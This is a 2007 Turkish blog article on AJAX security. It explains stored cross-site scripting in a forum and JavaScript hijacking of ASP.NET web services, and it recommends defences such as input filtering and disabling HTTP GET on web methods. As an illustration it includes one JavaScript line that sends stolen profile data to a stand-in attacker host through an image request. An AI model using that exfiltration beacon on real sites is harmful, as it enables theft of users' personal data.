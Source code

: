 ```yaml
---
FallbackID: 1729
Title: AJAX ve Güvenlik Sorunları
PublishDate: 20/4/2007
EntryID: AJAX_ve_Guvenlik_Sorunlari
IsActive: True
Section: software
MinutesSpent: 0
Tags: AJAX
old.EntryID: 4ca7f74e-dcc3-4f5e-8b97-3b84d6ca2d44
---
```

**AJAX** artık neredeyse her web projesinde kullanılır oldu. Bazı
projelerde ufak noktalarda kendini gösteren AJAX yeni nesil projelerde
ise neredeyse tüm iş katmanına yayılmış durumda. Bu noktada maalesef
AJAX'ın getirdiği heyecanın kısmi sersemliği ile güvenlik konusunda
kaygılar unutulmuş durumda. Oysa eskiden beridir **XSS
(Cross-Site-Scripting)** bizim JavaScript tarafındaki en önemli
düşmanlarımızdan. Ne kadar ilginçtir ki AJAX'ın göbeğinde de JavaScript
bulunuyor.

**XSS yeni bir güvenlik sorunu değil ki!?**

Kesinlikle değil. Cross-Site-Scripting uzun süredir bilinen, tanınan ve
koruma yöntemleri geliştirilmiş bir sorun. Fakat **XSS**'in yaratacağı
sorunlar AJAX ile binlerce kat büyüyor. Nasıl mı oluyor? Hemen bir örnek
üzerinden gidelim. Varsayalım bir forum uygulaması programlıyorsunuz ve
kullanıcıların attıkları mesajların içeriğini kontrol etmiyorsunuz.
Ziyaretçilerden biri mesajının arasına kendi hazırlamış olduğu
JavaScript kodunu yerleştirdi ve mesajı yolladı. Mesajı direk sitede
gösterdiğinizi varsayalım (Kötü bir programcısınız :)). Söz konusu
kullanıcının gönderdiği JavaScript kodu tüm kullanıcıların
bilgisayarında çalışacaktır. Bu noktada basit bir saldırı tipi olarak
uygun JavaScript kodu ile o sayfaya giren tüm kullanıcıların başka bir
adrese yönlendirilmesinden bahsedebiliriz (**fishing**). Forumunuzda
mesajların gönderimi ve gösterimi için AJAX kullandığınızı varsayalım.
Kullandığınız AJAX kodu, yani JavaScript kodunuz tüm kullanıcılara
gidiyor ve kaynak içerisinde incelenebiliyor. Biraz önce bahsettiğimiz
"kötü ziyaretçi" sizin AJAX metodlarınızı kullanarak forumunuza mesaj
atan bir JavaScript fonksiyonu yazarak mesajına eklerse neler olur?
Mesajın gözüktüğü sayfayı açan herkes o JavaScript metodunu çalıştırmış
olur böylece bir anda forumunuzdaki her kullanıcının yüzlerce mesaj
atması gibi bir durumla karşılaşabilirsiniz. Tüm bu işlem AJAX tarafında
yapıldığı için de kimse farkına varmayacaktır.

Aynı forum uygulamamızla ilgili başka bir durumdan bahsedelim. Forum
uygulamasını programlarken kullanıcıların bilgilerini de
değiştirebilecekleri bir sayfa hazırladınız. Tüm kullanıcıları bilgileri
AJAX ile sayfaya yerleşiyor ve kaydedilebiliyor. Tabi ki tüm bu AJAX
metodlarınız foruma mesaj atılan ve mesajların gösterildiği metodlar ile
sayfada yer alıyor. Kötü kullanıcı Şerafettin :) sitenizde
kullanıcıların bilgilerini profil sayfasına yerleştiren, yani
veritabanından çeken AJAX metodlarını kullanan bir JavaScript komutu
yazarak mesajına ekleyip gönderdi. Her kullanıcı forumda gezerken
Şerafettin'in yazdığı kod söz konusu kullanıcının bilgileri alacak. Peki
sonra ne yapacak? Bu bilgisi aşağıdaki gibi klasik bir teknikle kendi
sitesine aktaracak :)

<span> (<span style="color: blue;">new</span> Image()).src = <span
style="color: rgb(163, 21, 21);">
"http://serafettin.com/bilgigeldi.php?data="</span> +
ProfilBilgisi;</span>

Gözümüzün önünde tüm kullanıcıların profil bilgileri Şerafettin'in
mesajının bulunduğu sayfaya girdikleri gibi elden gidiyor.

XSS'i engellemek, yani kullanıcıların web sitenize gönderdiği içeriği
filtrelemek için **Microsoft** tarafından **ASP.NET** geliştiricileri
için hazırlanmış olan [**Anti-Cross Site
Script**](http://www.microsoft.com/downloads/details.aspx?familyid=9a2b9c92-7ad9-496c-9a89-af08de2e5982&displaylang=en)
kütüphanesini kullanabilirsiniz.

**JavaScript Hijacking**

Bir diğer AJAX sorunlarıdan biri de sitemiz dahilindeki AJAX
metodlarının başka sitelerde de kullanılabilmesi. Eğer AJAX
metodlarınızı harici bir JavaScript dosyasına yerleştirerek sayfanıza
linklediyseniz aynı linklemeyi başka siteler de yapabilir. Farklı alan
adları arasında XMLHttpRequest objelerinin çalışmaması ile ilgili
güvenlik düzenlemeleri olmasına karşın bu durumla ilgili herhangi bir
düzenleme yapmak pek mümkün değil.

<span style="color: blue;"> \<</span><span
style="color: rgb(163, 21, 21);">script</span><span> <span
style="color: red;"> language</span><span
style="color: blue;">="javascript"</span> <span style="color: red;">
src</span><span
style="color: blue;">="http://www.deneme.com/WebService.asmx/js"\>\</</span><span
style="color: rgb(163, 21, 21);">script</span><span
style="color: blue;">\></span></span>

Yukarıdaki kodu kullanarak deneme.com sitesinde kullanılmak üzere
hazırlanmış JavaScript metodlarını herhangi bir sitede, sayfada
kullanabilirsiniz. Dikkat ederseniz özellikle örnek içerisinde
**ScriptService** özelliğine sahip bir ASP.NET web servisi kullandım.
Bizim genelde ASP.NET AJAX tarafında sayfamıza linklediğimiz harici AJAX
metodları web servislerinde yer alıyor.\

Peki bu güvenlik açığına karşı ne yapabiliriz? Herhangi birşey yapmanız
gerekmiyor :) Microsoft bu açığı öngörmüş ve HTTP GET metodlarını web
metodlarına kapatmış. Yukarıdaki kod kullanılarak yapılacak bir talep
GET metodu ile yapılacaktır, herhangi bir şekilde POST metodu ile
yapılması mümkün değil. Siz web methodlarınıza **UseHttpGet:=True**
özelliği vermediğiniz sürece herhangi bir sorun olmayacaktır.

**Sonuç**

Benim tavsiyem AJAX kullanırken özellikle veri alımında, yani
veritabanına kaydedilecek veriyi kullanıcıdan alırken kullandığınız
tekniklerde dikkatli davranmanız. Eğer **Forms Authentication**
kullanıyorsanız web servislerinizi de korumaya almanızda fayda var. Tüm
bu tekniklerin haricinde sunucu taraflı sistem yükü fazla olsa da
Session bazlı ID'ler tanımlayarak sayfanızdaki AJAX işlemlerine gerçek
zamanlı parametre olarak ekleyerek gelen taleplerin sizin sisteminizden
gelip gelmediğini de kontrol edebilirsiniz. Son olarak XSS'e karşı
korunmayı da unutmayın.\


